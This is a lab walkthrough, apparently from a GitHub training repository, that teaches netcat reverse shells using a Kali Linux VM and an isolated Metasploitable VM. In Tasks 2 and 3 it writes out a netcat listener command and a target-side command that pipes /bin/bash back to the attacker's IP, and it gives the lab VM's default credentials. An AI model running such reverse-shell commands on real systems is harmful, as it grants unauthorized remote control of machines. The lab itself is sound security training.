


- [ ] Pasitikrinti ar viskas veikia

**Lab Objective:**

Learn how to use netcat to establish a reverse shell on a target machine.

**Lab Purpose:**

Netcat is a computer networking utility for reading from and writing to network connections using TCP or UDP.

**Lab Tool:**

Kali Linux VM and Metasploitable VM

**Lab Topology:**

You can use Kali Linux in a VM for this lab.

**Lab Walkthrough:**

### Task 1:

In this lab, we will be using netcat to create a reverse shell on a metasploitable machine. If you are unfamiliar with metasploitable, it is an intentionally vulnerable machine which can be loaded in VMware or VirtualBox, the same as Kali Linux. You can download the metasploitable ISO file here: [https://docs.rapid7.com/metasploit/metasploitable-2/](https://docs.rapid7.com/metasploit/metasploitable-2/)

You can find a lot of material on this page on how to download and setup the Metasploitable VM.

We will use both Kali Linux and Metasploitable for this lab. Remember to put both machines on the same isolated host-only network to talk to each other. When login is required, you will enter “**msfadmin**” as username and password.

### Task 2:

Setting up a reverse shell with netcat is very straightforward. The way a reverse shell works is by creating a listener on our attack machine and getting the target to connect back to this listener.

First, let’s find out the eth0 IP address of our Kali machine and write it down. We will use this information on our Metasploitable VM. Open a terminal in your Kali machine and type these following commands:

sudo su –  
ifconfig  
nc -l -v -n -p 443

192.168.56.103 is the IP address of our Kali VM in this case.

The syntax for starting a listener on a attacker machine looks like the following:

nc -l -v -n -p 443

-l tells netcat that this will be a listener  
-v is used to show us a verberos output  
-n tells netcat not to use DNS or resolve host names  
-p tells netcat which port to listen on

### Task 3:

We will now switch to our target machine, which is Metasploitable VM. We can use a number of payloads to get this machine to connect back to our attack box, but, for now, we will simply be using netcat to demonstrate how this works. Open a terminal on the Metasploitable VM and type the following:

sudo nc 192.168.56.103 443 -e /bin/bash

You will then be asked for a password for sudo, the password by default is “msfadmin” without quotes.

You will now have a shell connecting your Kali machine through netcat to the target metasploitable machine. As you can see, you are now able to execute commands from your Kali machine on the Metasploitable VM.